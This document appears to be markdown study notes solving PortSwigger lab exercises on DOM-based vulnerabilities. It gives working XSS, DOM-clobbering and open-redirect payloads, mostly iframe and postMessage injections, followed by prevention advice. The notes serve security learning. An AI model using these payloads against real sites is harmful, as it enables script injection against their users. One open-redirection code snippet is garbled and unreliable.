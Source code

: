 # DOM-based vulnerabilities

**what is DOM** 
- The DOM is a browser representation of page elements, and JavaScript can securely or insecurely manipulate it.


**What id DOM-XSS**
- DOM-based XSS (Cross-Site Scripting) happens when JavaScript in a web page takes untrusted (attacker-controlled) data from a source (like location.hash or document.cookie) and passes it directly into a sink (like innerHTML or eval()) without sanitizing it.

**What is Taint Flow?**
- Taint flow is the path that untrusted (tainted) data takes from a source to a sink.

Source → Where attacker-controlled input enters the JavaScript environment.

## Lab: DOM XSS using web messages


The code:

```
window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                            })

```

### What’s happening:

- The page listens for messages sent to it via postMessage or other frames/windows.

- Whatever e.data contains is directly inserted into the DOM via innerHTML without sanitization.

- If an attacker can send a crafted message to the page, they can inject arbitrary HTML/JS.

### Why it’s vulnerable
```
- innerHTML interprets input as HTML, so <script> or event handlers (like onerror) will execute.

- The developer has not validated origin (i.e., e.origin) or sanitized e.data.
```

### Attack Steps
- Identify the vulnerable listener:

  - Look for window.addEventListener('message', ...) in JS.

  - Check if the callback uses innerHTML or document.write with untrusted data.

- Verify there’s no origin check:
   ```
   if (e.origin !== "https://trusted-site.com") return;
   If missing → vulnerable.
   ```
- Craft a malicious message to exploit:
	```
	window.postMessage('<img src=x onerror=alert(1)>', '*');
    '*' sends to any origin.
    The payload uses an event handler (onerror) to trigger JavaScript.
  
    ```


### Real-World Exploit
- If you can open the target page in an iframe or another tab, you can inject:

```

<iframe src="https://victim.com"></iframe>
<script>
    // Wait until iframe loads, then send payload
    window.frames[0].postMessage('<img src=x onerror=alert(document.domain)>', '*');
</script>
```

```
<iframe src="https://vitim.com/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```


### Fix
- Validate origin:
```
if (e.origin !== "https://trusted-site.com") return;
```
- Sanitize data (e.g., DOMPurify) before inserting into the DOM:
```
document.getElementById('ads').innerHTML = DOMPurify.sanitize(e.data);
```

- Avoid using innerHTML unless necessary — use textContent for plain text.

<hr>

## Lab: DOM XSS using web messages and a JavaScript URL


Analysis :
 - Find : addEventListener
 - window.postMessage("javascript:alert(1);//https://abc.com","*")
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:bing.com','*')">
```


## Lab: DOM XSS using web messages and JSON.parse

Analysis : The SCRIPT
  - Find : addEventListener
```
//Testing Payload 
window.postMessage(
    JSON.stringify({
        type: "load-channel",
        url: "javascript:alert(document.domain)"
    }),
    "*"
);
```

```
<iframe src=https://0acd00030425513d807c034e00090016.web-security-academy.net/ onload='this.contentWindow.postMessage(`{"type":"load-channel","url":"javascript:print()"}`,"*")'>


<iframe src=https://vul.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

## Lab: DOM-based open redirection

Analysis :
```
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```

  - The url parameter contains an open redirection vulnerability that allows you to change where the "Back to Blog"

payload : 

```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

<hr>

## Lab: DOM-based cookie manipulation

Analysis :  &'><script>alert(1)</script>
payload : 

```
<iframe src="https://target.web.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://target.web.net';window.x=1;">
```
<hr>

## Lab: Exploiting DOM clobbering to enable XSS

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```


## Lab: Clobbering DOM attributes to bypass HTML filters


Ananlysis :  

```
Paste this in comment postId=3:  

<form id=x tabindex=0 onfocus=print()><input id=attributes>

Payload : 

       <iframe src=https://YOUR-LAB-ID.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">

```


## How to prevent DOM-Based Vulnerabilities:

- Avoid using untrusted data directly in dangerous DOM sinks (e.g., innerHTML, eval, document.write, event handler attributes, location, etc.).

- Validate input with a whitelist – only allow known safe values or patterns.

- Sanitize or encode output based on the context:

    - HTML encoding for HTML contexts.

    - JavaScript encoding for script contexts.

    - CSS encoding for style contexts.

    - URL encoding for links or parameters.

- Use well-tested security libraries (e.g., DOMPurify, OWASP Java Encoder) instead of writing your own sanitizer/encoder.

- Protocol restrictions – block dangerous URI schemes (javascript:, data:, cid:) in URLs from untrusted sources.

- Implement defense-in-depth – combine validation, sanitization, Content Security Policy (CSP), and strict type checks.

- Never trust DOM-created globals – avoid patterns like window.varName || fallback without validation to prevent DOM clobbering.


<hr>

## That packs in:

- Validate → Whitelist input

- Sanitize → Clean dangerous parts

- Encode → Context-specific output encoding

- Never Trust → Any untrusted DOM/URL data

- Always Restrict → Protocols, globals, sinks

- Layer Defenses → CSP, type checks, libraries

